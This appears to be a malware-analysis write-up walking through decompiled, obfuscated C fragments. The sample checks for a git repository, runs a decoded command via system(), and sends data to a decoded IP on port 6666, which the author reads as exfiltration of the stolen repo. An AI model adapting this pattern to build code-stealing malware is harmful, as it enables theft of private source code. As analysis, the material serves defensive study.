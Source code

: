 ```C
  int iVar1;
  char *__file;
  int fd;
  char *lockfile;
  __file = tgexpgbgxulli(6);
  iVar1 = open(__file,0xc1,0x1a4);
  aotxxfxjjvuoy(6);
  return iVar1;
```

and ndldgaiugwdhv does:
```C
int iVar1;
  char *pcVar2;
  int result;
  int rv;
  char *gitpath;
  char *pidof_git;
  
  pcVar2 = tgexpgbgxulli(7);
  iVar1 = git_repository_open_ext(0,pcVar2,1,0);
  aotxxfxjjvuoy(7);
  if (iVar1 == 0) {
    pcVar2 = tgexpgbgxulli(8);
    iVar1 = system(pcVar2);
    aotxxfxjjvuoy(8);
    if (iVar1 == 0) {
      iVar1 = -1;
    }
    else {
      iVar1 = 0;
    }
  }
  else {
    iVar1 = -1;
  }
  return iVar1;
```

Also looking through dxfivqvkpuunm (which was way too long to include and is in a separate file in this directory)

We can guess by the number of references to git that this is where the git repo is looked at before being stolen. It also makes sense that if there is no git repo on the system, then it can't do anything and simply returns.

Looking farther down in the program we see the following lines of code:

```C
    ip_00 = tgexpgbgxulli(0x13);
    length = std::__cxx11::basic_string<char,std::char_traits<char>,std::allocator<char>>::length();
    iVar3 = kvhlfowzlznog(ip_00,0x1a0a,pcVar4,length);
    aotxxfxjjvuoy(0x13);
```
and after this section of code, the program seems to end, so we can assume that this is where the meat of the operation happens.
